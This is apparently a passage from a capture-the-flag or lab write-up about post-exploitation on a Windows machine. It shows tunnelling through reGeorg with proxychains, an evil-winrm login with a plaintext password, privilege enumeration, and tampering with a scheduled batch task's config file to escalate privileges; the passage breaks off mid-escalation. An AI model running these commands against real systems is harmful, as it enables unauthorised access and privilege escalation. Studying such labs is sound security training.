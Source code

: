 Using proxychains, I could connect to the open ports of the victim machine with the help of reGeorgSOcksProxy
In this case I try to connect to port 5985 (winrm) and used the credentials  I found earlier to connect to the victim machine with the evil-winrm tool
``` bash
proxychains evil-winrm -i 127.0.0.1 -u 'simple' -p 'ZonoProprioZomaro:-('
```

This gave me access to the victim machine, Now I need to Escalate privileges

``` bash
*Evil-WinRM* PS C:\Users\simple\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

evil-winrm >  cd \util\scripts
*Evil-WinRM* PS C:\util\scripts> dir -Force
    Directory: C:\util\scripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/13/2018   2:54 PM                spool
-a----       12/21/2018   5:44 AM             84 backup.bat
-a----        9/26/2023   5:19 AM            402 batch.log
-a----       12/13/2018   2:56 PM             93 clean.ini
-a----        12/8/2018   9:17 AM           1232 dellog.ps1
-a----        9/26/2023   5:19 AM             35 log.txt
```

We found a .bat script  that seems to be a task that executes at time intervals, if I can put a malicious code .bat , this task will execute it. 
``` bash
*Evil-WinRM* PS C:\util\scripts> type dellog.bat
@echo off
rem =scheduled=
echo %DATE% %TIME% start bat >c:\util\scripts\batch.log
powershell.exe -exec bypass -f c:\util\scripts\dellog.ps1 >> c:\util\scripts\batch.log
for /F "usebackq" %%i in (`dir /b C:\util\scripts\spool\*.bat`) DO (
start /min C:\util\scripts\spool\%%i
timeout /T 5
del /q C:\util\scripts\spool\%%i
``` 
The .bat script uses another file, "clean.ini", and we have the manipulation privilege, so we can edit this file, 
``` bash
evil-winrm >  echo [Main] > clean.ini
evil-winrm >  echo LifeTime=100 >> clean.ini
evil-winrm >  echo LogFile=c:\util\scripts\kvzlx.txt >> clean.ini
evil-winrm >  echo Directory=c:\inetpub\logs\logfiles >> clean.ini
```
